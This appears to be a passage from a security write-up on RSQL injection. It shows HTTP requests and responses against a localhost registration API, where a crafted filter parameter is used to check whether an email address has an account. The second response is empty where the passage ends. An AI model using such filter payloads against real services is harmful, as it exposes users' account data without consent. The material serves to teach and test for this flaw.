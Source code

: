 ## Information leakage and enumeration of users
The following request shows a registration endpoint that requires the email parameter to check if there is any user registered with that email and return a true or false depending on whether or not it exists in the database:
### Request
```
GET /api/registrations HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
HTTP/1.1 400 
Date: Sat, 22 Mar 2025 14:47:14 GMT
Content-Type: application/vnd.api+json
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
Content-Length: 85

{
    "errors": [{
        "code": "BLANK",
        "detail": "Missing required param: email",
        "status": "400"
    }]
}
```

Although a `/api/registrations?email=<emailAccount>` is expected, it is possible to use RSQL filters to attempt to enumerate and/or extract user information through the use of special operators:
### Request
```
GET /api/registrations?filter[userAccounts]=email=='test@test.com' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Origin: https://locahost:3000
Connection: keep-alive
Referer: https://locahost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
```